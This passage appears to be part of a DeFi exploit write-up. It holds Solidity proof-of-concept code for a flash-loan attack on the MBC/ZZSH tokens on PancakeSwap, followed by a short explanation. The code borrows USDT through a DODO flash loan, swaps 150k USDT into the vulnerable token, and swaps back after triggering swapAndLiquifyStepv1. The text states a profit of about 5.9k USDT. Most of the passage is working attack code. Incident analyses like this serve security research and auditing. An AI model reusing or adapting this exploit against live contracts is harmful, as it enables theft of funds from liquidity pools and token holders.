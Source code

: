 ```solidity
    VulToken2USDT(zzsh_usdt);
}

function DPPFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) external {
    dodoCall(sender, baseAmount, quoteAmount, data);
}

function USDT2VulToken(PancakePair target) internal {
    // Swap 150k USDT to MBC/ZZSH
    usdt.transfer(address(target), 150_000 ether);
    (uint reserve0, uint reserve1, ) = target.getReserves();
    uint amountOut = 0;
    if (target.token0() != address(usdt)) {
        amountOut  = pancakeRouter.getAmountOut(150_000 ether, reserve1, reserve0);
        target.swap(amountOut, 0, address(this), "");
        emit log_named_decimal_uint("Total exchanged vulnerable token", ERC20(target.token0()).balanceOf(address(this)), mbc.decimals());
    } else {
        amountOut  = pancakeRouter.getAmountOut(150_000 ether, reserve0, reserve1);
        target.swap(0, amountOut, address(this), "");
        emit log_named_decimal_uint("Total exchanged vulnerable token", ERC20(target.token1()).balanceOf(address(this)), mbc.decimals());
    }
}

function VulToken2USDT(PancakePair target) internal {
    // Swap MBC/ZZSH to USDT
    (uint reserve0, uint reserve1, ) = target.getReserves();
    uint usdtAmountout = 0;
    if (target.token0() != address(usdt)) {
        ERC20 token = ERC20(target.token0());
        token.transfer(address(target), token.balanceOf(address(this)));
        uint amountIn = token.balanceOf(address(target)) - reserve0;
        usdtAmountout  = pancakeRouter.getAmountOut(amountIn, reserve0, reserve1);
        target.swap(0, usdtAmountout, address(this), "");
    } else {
        ERC20 token = ERC20(target.token1());
        token.transfer(address(target), token.balanceOf(address(this)));
        uint amountIn = token.balanceOf(address(target)) - reserve1;
        usdtAmountout  = pancakeRouter.getAmountOut(amountIn, reserve1, reserve0);
        target.swap(usdtAmountout, 0, address(this), "");
    }
    emit log_named_decimal_uint("Total exchanged USDT token", usdtAmountout, usdt.decimals());
}
```

First, initiate a flashloan from the DoDo pool with a large amount of USDT. In the callback function `dodoCall`, approve token transfers, execute the `attack` function, and repay the flashloan. The `attack` function involves swapping USDT to target tokens, adding liquidity to the pool by `swapAndLiquifyStepv1`, and then swapping back to USDT. This process results in a profit of approximately 5.9k USDT.
